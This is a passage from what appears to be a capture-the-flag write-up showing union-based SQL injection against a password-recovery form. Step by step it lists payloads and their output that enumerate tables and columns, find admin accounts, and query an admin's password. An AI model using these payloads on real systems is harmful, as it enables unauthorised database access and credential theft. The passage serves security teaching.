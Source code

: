 ```
from information_schema.tables #```

```
A password recovery email has been sent to 5andy
A password recovery email has been sent to ctf101
A password recovery email has been sent to d4ni3l
A password recovery email has been sent to greyhats
					......
A password recovery email has been sent to CHARACTER_SETS
A password recovery email has been sent to COLLATIONS
A password recovery email has been sent to COLLATION_CHARACTER_SET_APPLICABILITY
A password recovery email has been sent to COLUMNS
```

Too much information? Let clean up the user details by making the first query evaluate to be false
```1' and 1=0 union select table_name from information_schema.tables #```

```
A password recovery email has been sent to CHARACTER_SETS
A password recovery email has been sent to COLLATIONS
A password recovery email has been sent to COLLATION_CHARACTER_SET_APPLICABILITY
A password recovery email has been sent to COLUMNS
					......
```

Still find it too messy to find what we want? Let further narrow down our result by just getting tables from the 
connected database with ```1' and 1=1 UNION SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=database() #```

```
A password recovery email has been sent to ctf101_login
```

Look like this is the table we would be interested in. Let see what information the “ctf101_login” table contain.
```1' and 1=0 union select column_name from information_schema.columns where table_name = 'ctf101_login' #```

```
A password recovery email has been sent to userID
A password recovery email has been sent to username
A password recovery email has been sent to password
A password recovery email has been sent to type
A password recovery email has been sent to email
```

The username, password and type column is what we need. Let see the type of login/account
```1' and 1=0 union select type from ctf101_login #```

```
A password recovery email has been sent to normal
A password recovery email has been sent to admin
```

There are two type of account availables. “admin” type will be what we are looking for. Let see which username 
belongs to the “admin” type, ```1' and 1=0 union select username from ctf101_login where type = 'admin' #```

```
A password recovery email has been sent to n3lson
A password recovery email has been sent to d4ni3l
```

“n3lson” and “d4ni3l” are admin. Let get the password of the two admin
```1' and 1=0 union select password from ctf101_login where username = 'n3lson' #``` # 
```
